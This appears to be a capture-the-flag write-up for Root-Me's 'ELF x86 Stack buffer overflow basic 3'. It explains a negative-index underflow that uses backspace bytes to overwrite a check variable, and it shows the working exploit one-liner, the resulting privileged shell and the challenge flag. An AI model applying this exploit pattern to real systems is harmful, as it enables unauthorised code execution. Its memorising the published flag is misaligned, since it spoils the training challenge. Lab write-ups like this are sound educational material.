 # ELF x86 - Stack buffer overflow basic 3 
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-3
```

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch16@challenge02.root-me.org   
Username	app-systeme-ch16
Password	app-systeme-ch16
```
The source code is available and it's pretty clear that one can control the index of the buffer (_count_) at each character entered.<br>
The problem is that the buffer is growing upwards (to higher addresses), while the stack grows downwards (to lower addresses). So we'll not be able to overwrite the _check_ variable just like that.<br>
Luckily, _count_ is a signed integer, which means it can be negative. So, because we can increase the count (using any character which is not '\x08') and **decrease** it (using the '\x08' character).<br>
After trying to decrease count to -4 so _buffer[count]_ will point to _check_ (hopefully), one can get the following output:

```sh
app-systeme-ch16@challenge02:~$ cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16
Enter your name: id
uid=1116(app-systeme-ch16) gid=1116(app-systeme-ch16) euid=1216(app-systeme-ch16-cracked) groups=1216(app-systeme-ch16-cracked),100(users),1116(app-systeme-ch16)
cat .passwd
Sm4shM3ify0uC4n
```
